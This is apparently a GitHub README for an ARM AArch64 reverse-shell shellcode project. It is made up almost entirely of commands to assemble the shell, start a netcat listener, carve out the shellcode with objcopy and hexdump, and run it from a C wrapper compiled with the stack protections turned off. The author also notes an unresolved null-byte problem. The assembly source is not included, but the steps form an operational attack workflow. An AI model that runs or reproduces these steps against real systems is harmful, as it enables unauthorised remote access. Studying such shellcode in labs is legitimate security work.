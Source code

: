 # ARM-Shellcode 🐚
ARM AARCH64 Reverse Shell.

> Note 💡
I am still fixing the ASM code with the prompt to be fully functional and cooperative with the wrapper code. For some reason, I am getting an unbelievable amount of null-bytes within it upon extracting the shellcode. That doesn't appear to happen with `arm-revshell.s`. I will be solving this soon.
> To do: Fix null-byte situation.

## Custom Prompt PoC
<img width="559" alt="image" src="https://github.com/0xXyc/ARM-Reverse-Shell/assets/42036798/f7c42cdd-cb4c-43df-b4d6-13064b5e518e">

## Wrapper Code PoC
<img width="513" alt="image" src="https://github.com/0xXyc/ARM-Reverse-Shell/assets/42036798/5a54251b-5c07-4ef1-bd81-5582e2f9e2d9">

# Compiling 🛠️
## Linux/AARCH64 as a guest OS on a MAC or other ARM-based device
`as arm-revshell.s -o arm-revshell.o && ld arm-revshell.o -o arm-revshell`

### Begin a Netcat Listener 
`nc -lnvp 1337`

### Execute

Then, run `./arm-revshell` to execute.

## x86-64 host OS, but you want to run/compile for AARCH64
`aarch-linux-gnu-as arm-revshell.s -o arm-revshell.o && aarch-linux-gnu-ld arm-revshell.o -o arm-revshell`

### Begin a Netcat Listener
`nc -lnvp 1337`

### Execute
Then, run `qemu-aarch64 ./arm-revshell` to execute.`

## Utilizing the Shellcode "Wrapper"
This is to show you that we can achieve the same cyber result, just in a different executable format. It also goes to show how easily it is to "fit" shellcode into places.

**First, we must use `objcopy` to save the binary object to a `.bin` file so we can convert it into an easily copiable format:**
`objcopy -O binary arm-revshell arm-revshell.bin`

**Then, we need to utilize `hexdump` to "carve" out the shellcode from the binary object:**
`hexdump -v -e '"\\""x" 1/1 "%02x" ""' arm-revshell > shellcode.txt`

Lastly, we need to copy the contents of `shellcode.txt` into the `shellcode[]` buffer, within the `shellcode-exec.c` file.

### Compile the "Wrapper"
`gcc shellcode-exec.c -o shellcode-exec -z execstack -fno-stack-protector`

## Reverse Shell Time!!!
We can now easily call our shellcode within a C program.

**Start a Netcat Listener:**
`nc -lnvp 1337`

**Execute the program:**
`./shellcode-exec`

**CONGRATS, SHELLCODE EXECUTED! ENJOY!**


